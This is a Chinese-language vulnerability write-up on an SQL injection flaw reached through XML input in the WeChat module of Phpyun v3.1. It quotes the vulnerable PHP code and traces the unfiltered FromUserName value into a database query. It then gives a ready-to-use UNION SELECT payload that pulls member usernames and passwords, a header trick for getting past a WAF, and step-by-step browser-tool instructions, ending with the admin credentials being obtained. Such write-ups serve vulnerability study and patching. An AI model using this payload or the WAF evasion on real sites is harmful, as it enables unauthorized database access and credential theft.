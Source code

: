 Phpyun v3.1 xml 注入漏洞
========================

一、漏洞简介
------------

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

二、漏洞影响
------------

3.1 build14061

三、复现过程
------------

### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg() { \$postStr =
\$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\];

    if (!empty($postStr)){

                 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
                  $fromUsername = $postObj->FromUserName;
                  $toUsername = $postObj->ToUserName;
                  $keyword = trim($postObj->Content);
                  $time = time();
                  $textTpl = "<xml>
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         %s
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         0
         </xml>";
      if(!empty( $keyword ))
                  {
                  $msgType = "text";
                   $contentStr = "Welcome to wechat world!";
                   $resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);
                   echo $resultStr;
                  }else{
                   echo "Input something...";
                  }

          }else {
           echo "";
           exit;
          }
      }

这里将\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]，通过
simplexml\_load\_string解析后的内容，将其直接带入了\$textTpl。

然而\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]
，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。
if(\$MsgType==\'event\') { \$MsgEvent = \$postObj-\>Event; if
(\$MsgEvent==\'subscribe\') { \$centerStr =
\"\<!\[CDATA\[欢迎您关注\".iconv(\'gbk\',\'utf-8\',\$this-\>config\[\'sy\_webname\'\]).\"！/n
1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售
XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！\]\]\>\";
\$this-\>MsgType = \'text\';

      }elseif ($MsgEvent=='CLICK')
      {
       $EventKey = $postObj->EventKey;
       if($EventKey=='我的帐号'){
        $centerStr = $this->bindUser($fromUsername);

       }elseif($EventKey=='我的消息')
       {
        $centerStr = $this->myMsg($fromUsername);
       }elseif($EventKey=='面试邀请')
       {
        $centerStr = $this->Audition($fromUsername);

       }elseif($EventKey=='简历查看')
       {

        $centerStr = $this->lookResume($fromUsername);

       }elseif($EventKey=='刷新简历')
       {

        $centerStr = $this->refResume($fromUsername);

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪isBind函数：

private function isBind(\$wxid=\'\') {

    if($wxid)
    {
     $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
    }
    if($User['uid']>0)
    {
     $User['bindtype'] = '1';
     $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

    }else{

     $Token = $this->getToken();
     $Url = 'https://api.weixin.qq.com/cgi-bin/user/info?access_token='.$Token.'&openid='.$wxid.'&lang=zh_CN';
     $CurlReturn  = $this->CurlPost($Url);
     $UserInfo    = json_decode($CurlReturn);

     $wxid        = $wxid;
     $wxname      = $UserInfo->nickname;
     $this->config['token_time'] = time();

     $User['cenetrTpl'] = '<![CDATA[您还没有绑定帐号，config['sy_weburl'].'/wap/index.php?m=login&wxid='.$wxid.'">点击这里进行绑定!]]>';
    }

    return $User;

    }

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：

    Content-type:text/xml;charset=utf-8

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![](./.resource/Phpyunv3.1xml注入漏洞/media/rId26.gif)

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar`
的界面，点击`Enable Post data` ，将Payload写入输入框，如下图所示：

![](./.resource/Phpyunv3.1xml注入漏洞/media/rId27.png)

#### payload文件:

##### 注:payload文件内容需手动输入相应位置

    <?xml version="1.0" encoding="utf-8"?>
      <xml>
        1111
        1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
        1402550611
        event
        CLICK
        我的账号
        0
      </xml>

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开`Tamper Data`
，点击启动。

![](./.resource/Phpyunv3.1xml注入漏洞/media/rId30.gif)

现在前提工作已经做好，接下来重新访问网站，Tamper Data
就会抓取到数据包，再对数据包进行更改，操作如图：

![](./.resource/Phpyunv3.1xml注入漏洞/media/rId31.gif)

然后点击确定就可以将构造好的数据包发出去：

![](./.resource/Phpyunv3.1xml注入漏洞/media/rId32.gif)

成功获取管理员账号密码。

参考链接
--------

> <https://blog.csdn.net/whatiwhere/article/details/84862236>
